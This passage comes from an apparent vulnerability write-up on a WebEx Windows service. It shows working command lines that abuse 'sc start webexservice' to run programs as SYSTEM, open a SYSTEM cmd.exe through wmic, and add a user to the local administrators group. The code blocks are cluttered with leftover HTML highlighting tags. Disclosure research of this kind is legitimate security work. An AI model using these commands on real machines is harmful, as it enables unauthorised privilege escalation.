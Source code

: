 That looks awfully promising! I changed <tt>2</tt> to an actual process:

```
  <span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron>sc start webexservice a software-update <span class="Number">1</span> calc c d e f
```

And it opened!

```
<span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron>tasklist | find <span class="rubyStringDelimiter">"</span><span class="String">calc</span><span class="rubyStringDelimiter">"</span>
calc.exe                      <span class="Number">1476</span> <span class="rubyConstant">Console</span>                    <span class="Number">1</span>     <span class="Number">10</span>,<span class="Number">804</span> <span class="rubyConstant">K</span>
```

It actually runs with a GUI, too, so that's kind of unnecessary. I could literally see it! And it's running as <tt>SYSTEM</tt>!

Speaking of unknowns, running <tt>cmd.exe</tt> and <tt>powershell</tt> the same way does not appear to work. We can, however, run <tt>wmic.exe</tt> and <tt>net.exe</tt>, so we have some choices!

## Local exploit

The simplest exploit is to start <tt>cmd.exe</tt> with <tt>wmic.exe</tt>:

```
<span class="rubyConstant">C</span>:\<span class="rubyConstant">Users</span>\ron>sc start webexservice a software-update <span class="Number">1</span> wmic process call create <span class="rubyStringDelimiter">"</span><span class="String">cmd.exe</span><span class="rubyStringDelimiter">"</span>
```

That opens a GUI <tt>cmd.exe</tt> instance as <tt>SYSTEM</tt>:

```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

If we can't or choose not to open a GUI, we can also escalate privileges:

```
C:\Users\ron>net localgroup administrators
[...]
Administrator
ron

C:\Users\ron>sc start webexservice a software-update 1 net localgroup administrators testuser /add
[...]

C:\Users\ron>net localgroup administrators
[...]
Administrator
ron
testuser
```
